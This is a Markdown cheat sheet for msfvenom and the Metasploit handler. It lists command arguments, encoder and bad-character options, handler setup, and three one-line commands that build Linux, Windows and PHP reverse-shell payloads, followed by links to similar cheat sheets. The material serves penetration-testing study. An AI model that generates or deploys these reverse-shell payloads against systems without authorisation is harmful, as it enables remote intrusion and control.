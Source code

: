 # MSFVenom

## Payload Generation

> ### Arguments
>
> |       Argument       |     Usage      |            Options            |
> | :------------------: | :------------: | :---------------------------: |
> |     List Modules     |       -l       |          moduletype           |
> | List Payload Options | --list-options |                               |
> |       Payload        |       -p       |            payload            |
> |       Host IP        |     LHOST=     |              IP               |
> |   Host Listen Port   |     LPORT=     |             port              |
> |        Format        |       -f       |            format             |
> |    Output to File    |       -o       |           filename            |
> |        Encode        |       -e       |        shikata_ga_nai         |
> |  Encoder Iterations  |       -i       |         iterationsnum         |
> |    Exit Function     |   EXITFUNC=    |   thread (buffer overflow)    |
> |    Bad Characters    |       -b       |  charlist (buffer overflow)   |
> |       NOPsled        |       -n       |  noplength (buffer overflow)  |
> |  Max Payload Space   |       -s       | payloadsize (buffer overflow) |
>
> ### List Options/Common Options
>
> | Argument |                                                             List Options/Common Options                                                              |
> | :------: | :--------------------------------------------------------------------------------------------------------------------------------------------------: |
> | Modules  |                                             payloads, encoders, nops, platforms, archs, encrypt, formats                                             |
> | Payloads | linux/\<arch\>/\<payload\>, windows/\<arch\>/\<payload\> - [full list](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9) |
> | Formats  |                                            raw (default), exe, msi, elf, war : run `-l formats' for more                                             |
>
> ### Meterpreter
>
> |  Staged Payload (requires special listener)   |   Unstaged Payload    |
> | :-------------------------------------------: | :-------------------: |
> | linux/x64/meterpreter_reverse_tcp/reverse_tcp | linux/x64/reverse_tcp |
>
> |   Meterpreter   |          Command          |
> | :-------------: | :-----------------------: |
> |   Use handler   | use exploit/multi/handler |
> |   Set Payload   |  set PAYLOAD \<payload\>   |
> | Set Remote Host |     Set RHOST \<rhost\>     |
> | Set Listen Host |     set LHOST \<lhost\>     |
> | Set Listen Port |     set LPORT \<lport\>     |
>
> ### Usage Examples
>
> - Linux Reverse Shell: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f elf -o shell.elf`
> - Windows Reverse Shell: `msfvenom -p windows/shell_reverse_tcp LHOST=<Lhost\> LPORT=<lport\> -f exe -o shell.exe`
> - PHP Reverse Shell: `msfvenom -p php/reverse_php LHOST=<Lhost\> LPORT=<lport\> -o shell.php`

> ### GUI
>
> - [Setup](https://www.offensive-security.com/metasploit-unleashed/msf-community-edition/)

## Cheatsheets

> - [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)
> - [SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
> - [frizb/MSF-Venom-Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)
> - [Redteamtutorials.com](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
> - [Netsec.ws](https://netsec.ws/?p=331)
> - [Infinitelogins.com](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
> - [Thedarksource.com](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)
